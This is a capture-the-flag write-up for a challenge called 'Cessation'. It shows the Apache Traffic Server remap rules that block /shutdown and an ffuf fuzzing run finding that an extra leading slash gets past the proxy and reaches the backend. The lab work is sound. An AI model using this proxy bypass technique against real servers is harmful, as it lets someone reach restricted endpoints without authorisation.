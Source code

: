 # Cessation
![Image](<../Pasted image 20210423140708.png>)
## File provided
The file provided appears to be configuration for Apache Traffic Server. I want to request the _/shutdown_ directory, but this directory has been remapped to the _403_ directory.
```bash
cat remap.config 
regex_map http://.*/shutdown http://127.0.0.1/403
regex_map http://.*/ http://127.0.0
```

## Exploitation
I decided to try and fuzz the request after many other attempts to gain access. It appears fuzzing it with an extra _/_ changed the request enough so the proxy does not forward me, but the backend will recieve the request like normal.
```bash
──╼ $ffuf -w /opt/seclists/Fuzzing/special-chars.txt -u http://165.227.231.249:32079/FUZZshutdown

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://165.227.231.249:32079/FUZZshutdown
 :: Wordlist         : FUZZ: /opt/seclists/Fuzzing/special-chars.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

?                       [Status: 200, Size: 4147, Words: 941, Lines: 188]
#                       [Status: 200, Size: 4147, Words: 941, Lines: 188]
/                       [Status: 200, Size: 4199, Words: 940, Lines: 188]
:: Progress: [32/32] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 1 :
```

Sending this request over to BurpSuite shows us the flag.
![Image](<../Pasted image 20210423140636.png>)
